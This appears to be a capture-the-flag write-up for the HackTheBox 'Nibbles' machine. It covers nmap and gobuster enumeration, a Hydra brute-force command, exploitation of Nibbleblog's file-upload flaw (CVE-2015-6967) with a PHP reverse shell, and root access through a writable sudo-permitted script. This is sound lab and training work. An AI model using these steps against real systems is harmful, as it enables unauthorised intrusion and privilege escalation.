





|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.75 |  | [Nibbles](https://app.hackthebox.com/machines/nibbles) |  |

---

## Enumeration

### Nmap

```
nmap -T4 -p- -sC -sV 10.10.10.75

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap reveals only OpenSSH 7.2p2 Ubuntu and Apache/2.4.18 running on the target.

### Web Enumeration

Visiting the web page at `http://10.10.10.75` revealed no significant content, but the page source provided a hint referencing `/nibbleblog` directory:

```
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Running Gobuster on `/nibbleblog` with `SecLists` revealed interesting paths.

```
gobuster dir -u 10.10.10.75/nibbleblog -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/update.php           (Status: 200) [Size: 1622]
/feed.php             (Status: 200) [Size: 300]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]
/sitemap.php          (Status: 200) [Size: 401]
/install.php          (Status: 200) [Size: 78]
/index.php            (Status: 200) [Size: 2986]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
Progress: 39932 / 39934 (99.99%)
===============================================================
Finished
===============================================================
```

`/admin.php` is a login page that blocks IP address after a certain amount of failed attempts at login. We confirm the admin user in `/content/private/users.xml` and where the variable `session_fail_count` and blocked ip are stored. `/content/private/config.xml` contains the email `admin@nibbles.com`. `/update.php` identifies that the version of `Nibbleblog 4.0.3 "Coffee"` is running on web service.

### Metasploit (Alternate Way)

```
searchsploit nibbleblog            
---------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                              |  Path
---------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                      | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                       | php/remote/38489.rb
---------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

According to NIST, [CVE-2015-6967](https://nvd.nist.gov/vuln/detail/CVE-2015-6967) is a unrestricted file upload vulnerability in the My Image plugin in Nibbleblog before 4.0.5 allows remote administrators to execute arbitrary code by uploading a file with an executable extension, then accessing it via a direct request to the file in content/private/plugins/my_image/image.php.
> **_NOTE:_** The exploit requires admin credentials.

Attempts to brute force the credentials using Hydra were unsuccessful due to an IP address blacklist mechanism after multiple failed login attempts.

```
hydra -l admin -P rockyou.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:F=incorrect"
```

Based on research into Nibbleblog's default credentials and the HackTheBox Nibbles machine, it appears there is no documented method for systematically cracking the password aside from pure guesswork. The successful login using the password nibbles seems to rely entirely on luck or intuition tied to the machine's name. The valid credentials is `admin:nibbles`.

We follow the instructions on how to exploit Nibbleblog by uploading a `php` file to the `My Image` plugin.

In the admin panel, navigate to the `Plugins` > `My Image` Plugin.





We copied the PHP reverse shell script from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and create a file called `shell.php`. We must ensure that the IP address and port are changed accordingly. Once we have created the file, we keep the default fields, upload `shell.php` and hit `Save changees`.



We set up a listener on the attacker machine and trigger the reverse shell by visting `10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php`. This allows us to gain reverse shell as `nibbler`.



## Privilege Escalation

The first thing we do when we gain access to a user is inspect the sudo permissions. The `sudo -l` command reveals that the user `nibbler` can execute the script `/home/nibbler/personal/stuff/monitor.sh` as `root` without a password.

```
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

However, the directory path `/home/nibbler/personal/stuff/` does not exist and we must create the required path.

```
mkdir -p personal/stuff
```



We create a simple bash script and run `chmod +x` to allow our file to be executable. Running the script as `sudo` escalates our privilege to `root` user.

```
#!/bin/sh 
bash
> monitor.sh
# or wget from attacker machine

ls -la
-rw-rw-rw- 1 nibbler nibbler 17 Jan 13 01:52 monitor.sh

chmod +x monitor.sh
sudo ./monitor.sh
```

The user and root flag are located in a `/home/nibbler/user.txt` and `/root/root.txt`, respectively.